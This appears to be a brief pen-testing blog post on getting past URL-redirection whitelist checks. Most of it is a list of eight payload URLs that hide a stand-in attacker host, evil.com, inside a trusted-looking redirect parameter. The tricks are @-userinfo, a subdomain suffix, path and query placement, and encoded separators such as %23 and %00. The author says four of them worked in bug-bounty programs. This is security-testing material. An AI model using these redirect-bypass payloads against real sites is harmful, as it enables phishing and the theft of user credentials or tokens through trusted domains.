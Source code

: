 ```yaml
---
layout: post
title: How to bypass URL redirection whitelist detection
categories: [Pen-test]
Description: How to bypass URL redirection whitelist detection.
keywords: URL redirection
mermaid: false
sequence: false
flow: false
mathjax: false
mindmap: false
mindmap2: false
---
```


Description: In this guide, you will learn how to bypass URL redirection white-list detection.

## Quickstart

The following bypass techniques I have really succeeded in SRC.

```shell
https://example.com/?url=target.com@evil.com

https://example.com/?url=target.com.evil.com

https://example.com/?url=evil.com/target.com

https://example.com/?url=evil.com?target.com
```

I haven't succeeded in the following techniques in SRC, but you can also try it.

```shell
https://example.com/?url=target.com%23evil.com

https://example.com/?url=target.com\evil.com

https://example.com/?url=target.com\.evil.com

https://example.com/?url=target.com%00evil.com
```
